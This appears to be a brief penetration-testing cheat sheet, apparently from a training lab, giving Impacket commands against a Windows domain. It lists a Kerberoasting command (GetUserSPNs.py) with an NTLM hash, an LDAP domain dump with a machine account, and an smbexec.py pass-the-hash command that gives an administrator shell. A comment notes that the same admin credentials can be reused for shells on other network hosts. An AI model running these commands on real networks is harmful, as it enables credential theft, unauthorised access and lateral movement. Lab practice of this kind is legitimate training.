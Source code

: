 # IMPACKET 

## GetUserSPNs.py

```
GetUserSPNs.py -target-domain 10.11.1.120 -usersfile user.txt xor/xor-app59$ -hashes aad3b435b51404eeaad3b435b51404ee:fae1996d4e60ca36fbae340693078c6a
```

## ldapdomaindump

```
ldapdomaindump -n 10.11.1.120 ldap://xor-dc01.xor.com --user 'xor\xor-app59$' -at NTLM
```

## open port 445 - NOTE: if you administrator credentials of one of the host in a network you can used it to have shell on other machines inside the network - just change the subdomain
```
smbexec.py -dc-ip 10.11.1.24 svclient73/administrator@10.11.1.24 -hashes aad3b435b51404eeaad3b435b51404ee:ee0c207898a5bccc01f38115019ca2fb
```